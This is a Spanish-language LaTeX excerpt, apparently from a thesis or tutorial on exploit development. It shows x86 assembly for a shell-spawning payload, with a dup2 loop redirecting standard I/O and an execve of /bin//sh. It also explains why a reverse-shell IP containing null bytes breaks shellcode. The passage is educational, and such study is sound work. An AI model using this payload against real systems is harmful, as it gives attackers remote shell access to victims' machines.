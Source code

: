 \documentclass [titlepage, 12pt]{article}
\begin{document}
\begin{lstlisting}
		mov ebx, esi
		; dup2(descriptor aceptado, descriptores I/O estandar);
		; Maximo descriptor estandar almacenado en ecx.
		push byte 0x2
		pop ecx
		; Etiqueta para el bucle.
		dup_l00p:
		; Llamada al sistema 63. Se debe poner dentro del bucle.
		; Eax se sobreescribe con el valor de retorno de dup2().
		mov byte al, 0x3F
		; Syscall dup2().
		int 80h
		; Se Decrementa el descriptor estandar hasta que sea cero.
		dec ecx
		; Se salta a la etiqueta hasta que el flag de signo sea uno = ecx negativo.
		jns dup_l00p
	
		; execve(const char * file, char * const argv[], char * const envp[]);
		xor eax, eax
		mov byte al, 11
		push edx
		push 0x68732f2f
		push 0x6e69622f
		mov ebx, esp
		push edx
		mov edx, esp
		push ebx
		mov ecx, esp
		int 80h
\end{lstlisting}

Por \'ultimo, cabe destacar que si una direcci\'on $IP$ que se inserta en el $shellcode$ contiene $bytes$ nulos, el $shellcode$ contendr\'a $bytes$ nulos y, por consiguiente, no se ejecutar\'a correctamente. Para plantear una soluci\'on a este problema se utilizar\'a un ejemplo para ilustrar la metodolog\'ia a seguir en estos casos.\bigskip

Imagine que el $shellcode$ de conexi\'on inversa se tuviera que conectar a la $ip$ de $loopback$, 127.0.0.1 donde 127 en hexadecimal equivale a 7f, 0 a 00 y 1 a 01. Como se puede apreciar a simple vista, dicha $ip$ contiene $bytes$ nulos, as\'i que si se utilizara un c\'odigo tal que el \ref{fig:nullByteInsertion} para almacenar la direcci\'on $ip$  en el $shellcode$, \'este no se ejecutar\'ia correctamente.

\lstset{language=[x86masm]Assembler,caption=Inserci\'on erronea de un $byte$ nulo,label=fig:nullByteInsertion}
\begin{lstlisting}		
		BITS 32
		xor eax, eax
		push DWORD 0x0100007f
		pop eax
\end{lstlisting}

Recordemos que debido a que el sistema sobre el que se trabaja est\'a basado en una arquitectura $little$ $endian$, las inserciones en la pila de varios $bytes$ se deben realizar de manera inversa a su lectura, de izquierda a derecha.\\
Despu\'es de ejecutar este c\'odigo, en $eax$ se deber\'ia almacenar el valor en hexadecimal de la $ip$. Sin embargo, esto no ocurrir\'a ya que la funci\'on con la que obtenemos el c\'odigo del $shellcode$ no pasar\'a del momento en el que se encuentre con el primer $byte$ nulo.\\
Un c\'odigo que solucionar\'ia dicho problema es el citado en el C\'odigo \ref{fig:nullByteSolution}:\\
\end{document}
